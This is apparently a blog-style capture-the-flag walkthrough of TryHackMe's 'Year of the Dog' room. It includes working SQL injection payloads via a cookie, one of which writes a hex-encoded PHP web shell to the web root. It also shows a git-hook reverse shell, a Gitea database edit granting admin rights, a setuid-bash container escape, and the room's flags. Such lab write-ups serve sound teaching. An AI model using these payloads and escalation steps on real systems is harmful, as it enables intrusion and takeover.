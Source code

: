 ```yaml
---
title: "Year of the Dog"
date: 2025-3-30
draft: false
description: TryHackMe's Good Room 
Tags:
- TryHackMe
- Linux
- Hard
---
```


## Enumeration

Lets start with the simple nmap scan.
```
nmap -sVC 10.10.104.237             
Starting Nmap 7.95 ( https://nmap.org ) at 2025-03-30 13:45 +0545
Nmap scan report for 10.10.104.237 (10.10.104.237)
Host is up (0.17s latency).
Not shown: 983 closed tcp ports (conn-refused)
PORT      STATE    SERVICE        VERSION
22/tcp    open     ssh            OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 e4:c9:dd:9b:db:95:9e:fd:19:a9:a6:0d:4c:43:9f:fa (RSA)
|   256 c3:fc:10:d8:78:47:7e:fb:89:cf:81:8b:6e:f1:0a:fd (ECDSA)
|_  256 27:68:ff:ef:c0:68:e2:49:75:59:34:f2:bd:f0:c9:20 (ED25519)
80/tcp    open     http           Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Canis Queue
|_http-server-header: Apache/2.4.29 (Ubuntu)
843/tcp   filtered unknown
1002/tcp  filtered windows-icfw
1069/tcp  filtered cognex-insight
1074/tcp  filtered warmspotMgmt
2041/tcp  filtered interbase
3367/tcp  filtered satvid-datalnk
3690/tcp  filtered svn
3809/tcp  filtered apocd
7921/tcp  filtered unknown
8654/tcp  filtered unknown
9040/tcp  filtered tor-trans
10566/tcp filtered unknown
10629/tcp filtered unknown
16992/tcp filtered amt-soap-http
24800/tcp filtered unknown
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 23.44 seconds
```

Hmm lets check the port 80.
![](Pasted%20image%2020250330134721.png)

Hmm lets do directory busting.
Hmmm nothing interesting there.

Lets try to do subdomain and vhost but the room hasn't provided us with specific domain name.
Lets use nikto.
![](Pasted%20image%2020250330135318.png)

Hmm nothing useful i guess.

There is something on cookie.
![](Pasted%20image%2020250330135408.png)

Random strings.
Hmmm.
Is it like a hash or something.
Lets change that.
![](Pasted%20image%2020250330135525.png)

And something chnaged but why error?
Does it need a fixed sized string or something.
Lets try.
But only error showed up.

I spend many time and got the hint of sql.
If server using query to determine the result by that value in cookie,then it might be vulnerable.
![](Pasted%20image%2020250330135945.png)

Okay but it was unexpected.
Lets try to exploit.
After many tries,we finally got right payload and without `;`.
```SQL
2ccffd5893d5c6ea78c8fd68813a773d' UNION SELECT 1,2-- -
```
![](Pasted%20image%2020250330140241.png)

Uff its so random.
Okay lets enumerate the database.

I captured the request in caido to make it easy.
![](Pasted%20image%2020250330140704.png)

I was trying different thing like trying to tables,columns etc. and got this message.
![](Pasted%20image%2020250330141223.png)

Now I have a strong feeling that RCE can be possible.
Lets try.

And I guess it worked.
![](Pasted%20image%2020250330141708.png)
```SQL
2ccffd5893d5c6ea78c8fd68813a773d'UNION SELECT 1, 0x3C3F7068702073797374656D28245F4745545B22636D64225D293B203F3E INTO OUTFILE '/var/www/html/shell.php' -- -
```

Lets try to execute command.
![](Pasted%20image%2020250330141756.png)

Lets get reverse shell.
And now we are inside.
![](Pasted%20image%2020250330142200.png)

Lets see what can i do.
We got one password.
![](Pasted%20image%2020250330142442.png)

![](Pasted%20image%2020250330142850.png)

Hmm so there is use of git and gitea.
![](Pasted%20image%2020250330142933.png)

Lets see that `work_analysis`.
Hmm this is some kind log log file.
![](Pasted%20image%2020250330170005.png)

Lets see this might contain some creds.
And i guess we got it at first.
![](Pasted%20image%2020250330170117.png)

Lest try to login.
Ohh i thought it was `dylanLabr4d0rs4L1f3` but it was only `Labr4d0rs4L1f3`.
![](Pasted%20image%2020250330170448.png)
And we got the flag.
```php
THM{OTE3MTQyNTM5NzRiN2VjNTQyYWM2M2Ji}
```

Now lets do privelege escalation.
Lets see that before git thing.
![](Pasted%20image%2020250330170757.png)

Hmm.
Running linpeas,we can see this.
![](Pasted%20image%2020250330171150.png)

Lets forward this port to our system by ssh.
```bash
ssh -L 3000:localhost:3000 dylan@ip
```

And now we can access it via `http://localhost:3000` on our local machine.
![](Pasted%20image%2020250330172144.png)

Lets see what can we do.

I tried logging in with dylans email and password.
```php
Email:dylan@yearofthedog.thm
Pass:Labr4d0rs4L1f3
```
(Email can be found in several git directories on the machine.)

But its also need a passcode.
![](Pasted%20image%2020250330172721.png)

Hmm is it any passcode stored there or anything like this.
Lets see.
```bash
grep -Ri "passcode" .
```
![](Pasted%20image%2020250330173237.png)

Hmm something in `./gitea/log/gitea.log` and `./gitea/gitea.db`.
Lets check that out.
That log file has something but `gitea.db` has a lot.

Lets download the file via python server and use `sqlite3`.
We can do this to get tables.
`.tables`

And do this.
`SELECT * FROM two_factor;`
And we will get a token.
![](Pasted%20image%2020250330174108.png)
But i think its not useful.

I also tried registering the user.
![](Pasted%20image%2020250330175043.png)

After that, I again downloaded the .db file and there is our user.
![](Pasted%20image%2020250330175315.png)

After few talk with chatGPT cause i am weak at using `sqlite3`,we can check the info of columns.
```SQL
PRAGMA table_info(user);

```
![](Pasted%20image%2020250330175729.png)

So there is `is_admin` in 26th index.
![](Pasted%20image%2020250330175826.png)

Lets see the result of
```SQL
SELECT * FROM user;
```

Or for more easy,
```SQL
select lower_name,is_admin from user;
```

So here the user hack isn't admin.
![](Pasted%20image%2020250330180102.png)

Lets change that to admin.
```SQL
UPDATE user SET is_admin = 1 WHERE lower_name = 'hack';
```

So now user hack is admin.
![](Pasted%20image%2020250330180231.png)

Now lets replace that .db file from victim machine to ours new one.
```bash
scp gitea.db dylan@ip:/gitea/gitea/gitea.db
```

And now refreshing the page,we can see the administration page.
(I changed the username to hehe in upcoming cause the machine expired)
![](Pasted%20image%2020250330194547.png)

And there is a repo called test-repo.
![](Pasted%20image%2020250330194900.png)

Now we can exploit this.
![](Pasted%20image%2020250330195007.png)
(In **Gitea** (and Git in general), **git hooks** are used to automate tasks and enforce certain rules during the Git workflow. They are usually shell scripts (or executable scripts) located in the `.git/hooks/` directory of a repository, and they are executed when certain Git actions occur, such as `git commit`, `git push`, or `git merge`.)
                                                        -chatgpt


So if we could edit it we could run our script and that might give us with the root shell.
Lets see.
Lets add our rev shell here.
![](Pasted%20image%2020250330195505.png)

I will add 2-3 different reverse shells cause many some mightn't work.
![](Pasted%20image%2020250330195706.png)

Now lets clone that repo in our victim's machine to make that script run cause it automatically runs when any commit happens.

Lets do it.
```
git clone http://localhost:3000/Dylan/Test-Repo.git
cd Test-Repo/
echo "changes" >> README.md
git add .
git commit -m "changes"
git push
```

And we should now got the shell in listenner.
![](Pasted%20image%2020250330205159.png)

Hmm but this is a git shell.
Ohh but with root priveleges.
![](Pasted%20image%2020250330205238.png)

So we have now sudo to run anything as root.
![](Pasted%20image%2020250330205339.png)

And we are root but in docker.
![](Pasted%20image%2020250330205429.png)

Lets escape.
Cause we are in git shell,there might be something connected with main host.
![](Pasted%20image%2020250330210043.png)

Lets check that `/app` and `/data`.
And `/data` has same thing as main host.
![](Pasted%20image%2020250330210551.png)
Hmm this might be connected.

And app also have gitea but something odd here.
![](Pasted%20image%2020250330210719.png)

Lets go on main host's `/gitea/gitea` and do this.
```bash
cp /bin/bash .
```

Now from that another docker as root on `/data/gitea,
```bash
chown root:root bash
chmod 4777 bash
```

Now we can go to the main host and there will be `bash` with setuid of root.
![](Pasted%20image%2020250330213552.png)

And we are root.
`THM{MzlhNGY5YWM0ZTU5ZGQ0OGI0YTc0OWRh}`

And done.

![](Pasted%20image%2020250330213711.png)

Learned lots of things again.
I hope you are doing great.
Take care :).


Refs:
[revshell.com](https://www.revshells.com/)
[full tty shell](https://book.hacktricks.wiki/en/generic-hacking/reverse-shells/full-ttys.html)
